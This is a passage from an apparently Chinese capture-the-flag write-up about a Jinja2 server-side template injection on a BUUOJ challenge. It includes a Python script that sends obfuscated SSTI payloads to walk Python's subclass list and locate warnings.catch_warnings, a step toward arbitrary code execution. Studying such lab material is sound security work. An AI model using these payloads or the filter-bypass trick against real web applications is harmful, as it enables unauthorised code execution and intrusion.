 成功了, 不过读 `/flag` (拼接后)返回了500, 可能没有这个结构, 那就要考虑执行更复杂的指令来找位置;

下一步就是要找一个含有执行任意指令的内建函数的类, 例如 `warnings.catch_warnings`, 这里写了个 python 脚本:

{% hideToggle 查找vuln class %}

```python
import requests
import time

URL = 'http://ccd7320a-db75-4426-951a-f8fd0a200e29.node5.buuoj.cn:81/'
TIMEOUT = 5  # 请求超时（秒）
RATE_LIMIT = 5  # 每秒最多请求数
DELAY = 1.0 / RATE_LIMIT  # 请求间隔（秒）


def try_index(idx):
    # 构造 payload
    payload = "{%print(''['__cla''ss__']['__m''ro__'][2]['__subc''lasses__']()[" + str(idx) + "])%}"
    data = {'name': payload}
    try:
        resp = requests.post(URL, data=data, timeout=TIMEOUT)
    except requests.RequestException as e:
        print(f"[{idx}] 请求失败: {e}")
        return False, None
    text = resp.text or ''
    found = resp.status_code == 200 and 'catch_warnings' in text
    return found, text


def main():
    for i in range(201):
        found, text = try_index(i)
        print(f"[{i}] 检测 -> {'FOUND' if found else 'not found'}")
        if found:
            print(">>> 成功检测到 catch_warnings！")
            print(f">>> Payload 索引: {i}")
            break
        # 限速：每秒最多发送 RATE_LIMIT 个请求
        #print(">>> 响应内容片段：")
        #print(text[:500])
        time.sleep(DELAY)
    else:
        print("在 0–200 范围内未检测到 catch_warnings。")


if __name__ == '__main__':
    main()
```

{% endhideToggle %}

![20-3.png](20-3.png)
